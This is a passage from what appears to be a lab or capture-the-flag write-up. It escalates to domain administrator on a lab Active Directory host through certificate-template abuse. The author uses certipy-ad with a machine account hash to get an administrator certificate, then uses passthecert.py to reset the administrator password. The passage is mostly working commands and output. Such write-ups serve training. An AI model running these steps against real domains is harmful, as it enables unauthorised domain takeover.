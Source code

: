 
Use the hash and the MAIL01 computer account to get the administrator private key.
```
┌──(kali㉿kali)-[~]
└─$ certipy-ad req -u 'MAIL01$@hybrid.vl' -hashes 0f916c5246fdbc7ba95dcef4126d57bd -dc-ip 10.10.189.245 -ca 'HYBRID-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator@hybrid.vl' -key-size 4096
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with UPN 'administrator@hybrid.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```


Since we get a “not trusted” error when trying to authenticate we will have to find another way to authenticate.
```
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx administrator.pfx -u administrator -domain hybrid.vl -dc-ip 10.10.189.245
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hybrid.vl
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
```


We are going to use the [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python) Python script.
```bash
# Split cert
┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt                          
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'administrator.crt'


┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'administrator.key'

# Modify pass of administrator user using passthecert.py
┌──(kali㉿kali)-[~]
└─$ python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain hybrid.vl -dc-ip 10.10.189.245 -target administrator -new-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully changed administrator password to: gVbo4zQPTXOv6EfGyDb3vv3ydzgUWecc
```
